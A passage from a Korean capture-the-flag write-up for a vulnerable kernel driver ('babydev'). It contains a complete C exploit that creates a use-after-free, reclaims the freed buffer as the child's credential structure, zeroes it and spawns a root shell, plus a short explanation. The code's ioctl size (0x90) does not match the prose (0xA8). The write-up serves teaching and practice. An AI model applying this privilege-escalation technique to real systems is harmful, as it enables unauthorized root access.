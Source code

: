 마지막으로, `babywrite` 함수는 `copy_from_user(babydev_struct.device_buf, buffer, length)`를 호출한다. 이 함수를 이용해 dangling pointer에 원하는 값을 쓸 수 있게 된다.


---

## 익스플로잇

```c
// gcc -masm=intel -static -o exp exp.c -no-pie
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdint.h>
#include <sys/ioctl.h>
#include <sys/wait.h>

int main() {
    int fd1, fd2;
    fd1 = open("/dev/babydev", O_RDWR);
    fd2 = open("/dev/babydev", O_RDWR);
    
    ioctl(fd1, 65537, 0x90);
    close(fd1);

    int pid = fork();
    if(pid < 0) {
        printf("ERROR\n");
        exit(-1);
    }
    else if(pid == 0) {
        char fake_cred[30] = {0, };
        write(fd2, fake_cred, 28);
        usleep(10);
        system("/bin/sh");
        exit(0);
    }
    else {
        wait(0);
    }

    return 0;
}
```
babydev 드라이버를 두 번 open하고, 슬랩 객체를 0xA8로 하여 새롭게 할당한 뒤, 이를 다시 해제한다.

이후, fork 함수를 통해, 자식 프로세스를 만들고, 자식 프로세스에서는 fd2 파일 디스크립터로 write 함수를 호출한 뒤에, 쉘을 실행한다. 반면, 부모 프로세스는 자식 프로세스가 종료될 때까지 대기했다가 정상 종료한다.
